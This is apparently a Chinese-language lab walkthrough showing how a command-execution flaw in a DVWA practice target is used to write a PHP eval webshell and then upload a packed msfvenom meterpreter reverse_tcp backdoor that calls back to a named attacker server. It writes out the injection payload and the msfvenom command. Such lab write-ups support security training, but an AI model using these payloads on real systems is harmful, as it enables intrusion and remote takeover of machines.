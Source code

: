 ```yaml
---
typora-root-url: D:\icq\MD\images\命令执行上线msf后门
---
```


## 一、搭建靶场，通过命令执行漏洞完成msfvenom后门上线和 web_delivery上线。

命令执行利用msfvenom后门上线，一般是先通过命令执行上传webshell，再通过webshell上传msfvenom生成的后门上线

靶机DVWA（内网虚拟机）：192.168.10.52

攻击机（云服务器）：124.222.14.190

1. 命令执行写入webshell

   ```cmd
   127.0.0.1 & echo ^<?php eval($_POST[aaa]);?^> > shell.php
   ```

   ![image-20220705202029707](/D:/icq/MD/images/命令执行上线msf后门/image-20220705202029707.png)

   

2. 验证shell

   

   ![image-20220705202401198](/D:/icq/MD/images/命令执行上线msf后门/image-20220705202401198.png)

   

3. msfvenom生成后门文件

   ```shell
   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=124.222.14.190 lport=14444 -f exe -o back1.exe
   ```

   ![image-20220705203143971](/D:/icq/MD/images/命令执行上线msf后门/image-20220705203143971.png)

   

4. 后门文件加壳后上传到靶机

   

   ![image-20220705203506564](/D:/icq/MD/images/命令执行上线msf后门/image-20220705203506564.png)

   

   ![image-20220705204306733](/D:/icq/MD/images/命令执行上线msf后门/image-20220705204306733.png)

   

5. 攻击机开启监听，靶机执行后门文件

   

   ![image-20220705204445791](/D:/icq/MD/images/命令执行上线msf后门/image-20220705204445791.png)

   
